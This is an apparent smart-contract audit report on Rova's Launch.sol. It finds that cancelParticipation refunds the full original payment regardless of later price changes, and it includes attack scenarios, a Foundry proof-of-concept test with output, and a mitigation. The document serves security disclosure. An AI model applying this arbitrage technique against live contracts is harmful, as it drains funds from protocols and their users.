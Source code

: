 Odd Holographic Jaguar

High

# Price change consequences can be nullified by calling cancelParticipation

### Summary

Lack of price-aware cancellation logic allows users to avoid losses by canceling positions when token price decreases to obtain their full funds.


### Root Cause

In Launch.sol, cancelParticipation and _processRefund returns the original currency spent without adjusting to the current price. This provides an opportunity for users to buy into the token at one price and without any risk drop out if the price moves unfavorably. This differs from the implementation of updateParticipation, which makes updates based on the currentPrice.
https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L451
```solidity
    function cancelParticipation(CancelParticipationRequest calldata request, bytes calldata signature)
        external
        nonReentrant
        whenNotPaused
        onlyLaunchGroupStatus(request.launchGroupId, LaunchGroupStatus.ACTIVE)
    {
        //..
        //refund based on currencyAmout when participation was created, even though the price has dropped
        uint256 refundCurrencyAmount = info.currencyAmount;
        IERC20(info.currency).safeTransfer(info.userAddress, refundCurrencyAmount);

```


### Internal Pre-conditions

1. Launch group has finalizesAtParticipation = false
2. User participates at higher price
3. Manager decreases token price

### External Pre-conditions

None

### Attack Path

Scenario 1:
1. User buys 1000 tokens at a price of 1-to-1 for $1000
2. Price updates to 0.5 units per token
3. User cancels participation
4. User receives full $1000 back
5. User can rebuy same amount at new lower price

Scenario 2:
1. User buys 1000 tokens at a price of 1-to-1 for $1000
2. Price updates to 2 units per token
3. User keeps the tokens
4. User gets finalized as a winner and sells the tokens for $2000

### Impact

Protocol vulnerable to risk-free arbitrage


### PoC

Place the PoC inside Launch.CancelParticipation.t.sol
```solidity
function testPriceArbitrageVulnerability() public {
    // Setup initial participation with price = 1
    bytes32 launchGroupId = bytes32(uint256(999));
    bytes32 participationId1 = bytes32(uint256(888)); 
    bytes32 participationId2 = bytes32(uint256(777));

    CurrencyConfig memory currencyConfig = CurrencyConfig({
        tokenPriceBps: 1 * 10 ** currency.decimals(),
        isEnabled: true
    });

    LaunchGroupSettings memory settings = LaunchGroupSettings({
        finalizesAtParticipation: false,
        startsAt: block.timestamp, 
        endsAt: block.timestamp + 1 days,
        maxTokenAllocation: 10000 * 10 ** launch.tokenDecimals(),
        minTokenAmountPerUser: 100 * 10 ** launch.tokenDecimals(),
        maxTokenAmountPerUser: 3000 * 10 ** launch.tokenDecimals(),
        status: LaunchGroupStatus.ACTIVE
    });

    vm.startPrank(manager);
    launch.createLaunchGroup(launchGroupId, address(currency), currencyConfig, settings);
    vm.stopPrank();

    // Step 1: User buys 1000 tokens when price = 1
    ParticipationRequest memory request = ParticipationRequest({
        chainId: block.chainid,
        launchId: testLaunchId,
        launchGroupId: launchGroupId,
        launchParticipationId: participationId1,
        userId: testUserId,
        userAddress: user1,
        tokenAmount: 1000 * 10**18,
        currency: address(currency),
        requestExpiresAt: block.timestamp + 1 hours
    });
    
    bytes memory signature = _signRequest(abi.encode(request));
    
    vm.startPrank(user1);
    currency.approve(address(launch), 1000 * 10**18);
    launch.participate(request, signature);
    
    ParticipationInfo memory infoAfterBuy = launch.getParticipationInfo(participationId1);
    console.log("After buying at price = 1:");
    console.log("  Tokens purchased: %d", infoAfterBuy.tokenAmount / 10**18);
    console.log("  Currency spent: %d", infoAfterBuy.currencyAmount / 10**18);
    
    // Step 2: Price decreases to 0.5
    vm.stopPrank();
    vm.startPrank(manager);
    launch.setLaunchGroupCurrency(
        launchGroupId,
        address(currency),
        CurrencyConfig({
            tokenPriceBps: 5 * 10**17,
            isEnabled: true
        })
    );
    console.log("\nPrice decreased to 0.5");
    
    // Step 3: User cancels to get full refund at original price
    vm.stopPrank();
    vm.startPrank(user1);
    
    uint256 balanceBeforeCancel = currency.balanceOf(user1);
    
    CancelParticipationRequest memory cancelRequest = CancelParticipationRequest({
        chainId: block.chainid,
        launchId: testLaunchId,
        launchGroupId: launchGroupId,
        launchParticipationId: participationId1,
        userId: testUserId,
        userAddress: user1,
        requestExpiresAt: block.timestamp + 1 hours
    });
    
    bytes memory cancelSignature = _signRequest(abi.encode(cancelRequest));
    launch.cancelParticipation(cancelRequest, cancelSignature);
    
    uint256 balanceAfterCancel = currency.balanceOf(user1);
    console.log("\nAfter cancellation:");
    console.log("  Refund received: %d", (balanceAfterCancel - balanceBeforeCancel) / 10**18);
    console.log("  Final balance: %d", balanceAfterCancel / 10**18);
}

```

Output:
```text
After buying at price = 1:
Tokens purchased: 1000
Currency spent: 1000

Price decreased to 0.5

After cancellation:
Refund received: 1000
Final balance: 1000
```

### Mitigation

Adjust refund amount/cancellation amount to take into account the current price so that users cant take advantage of risk free arbitrage.